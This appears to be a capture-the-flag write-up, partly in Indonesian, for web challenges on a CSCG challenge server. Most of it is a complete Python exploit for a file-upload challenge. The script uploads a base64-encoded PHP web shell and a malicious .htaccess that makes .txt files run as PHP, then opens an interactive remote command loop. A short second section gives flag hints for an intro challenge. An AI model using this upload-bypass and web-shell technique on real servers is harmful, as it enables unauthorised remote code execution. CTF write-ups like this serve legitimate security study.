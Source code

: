 # Web
## File Upload
- bypass admin user using:
```php
$sql = "SELECT id FROM fileupload_users WHERE BINARY username = ?";
```
the itended solution is using race condition, but we can use .htaccess upload instead.
```python
import requests, base64, urllib.parse

URL = "https://a523f8ffc5b10aae0e457a2e-file-upload.challenge.master.cscg.live:31337/"
PHPSESSID = "698d8f99b86410cb6f9d0f24667166dc"
headers = {
    'Cookie': 'PHPSESSID=' + PHPSESSID
}

def backdoor():
    payload_htaccess = """AddType application/x-httpd-php .txt
    php_value auto_prepend_file "php://filter/convert.base64-decode/resource=payload.txt\""""

    payload = "<?php system($_GET['cmd']); ?>"
    payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')
    
    files = {
        'fileToUpload': (
            'payload.txt', 
            payload,
        )
    }

    requests.post(URL + 'upload.php', files = files, headers = headers)
    files = {
        'fileToUpload': (
            '.htaccess', 
            payload_htaccess,
        )
    }
    requests.post(URL + 'upload.php', files = files, headers = headers)

def main():
    backdoor()
    while True:
        cmd = input("$ ")
        cmd = urllib.parse.quote_plus(cmd)
        r = requests.get(URL + f'uploads/payload.txt?cmd={cmd}', headers = headers)
        print(r.text)
    
if __name__ == "__main__":
    main()
```
## Intro to Web 1
- Flag 1 dan 3 ada di renspons-nya
- Untuk mendapatkan flag kedua kita harus merubah variabel "countDownTime" bernilai 0
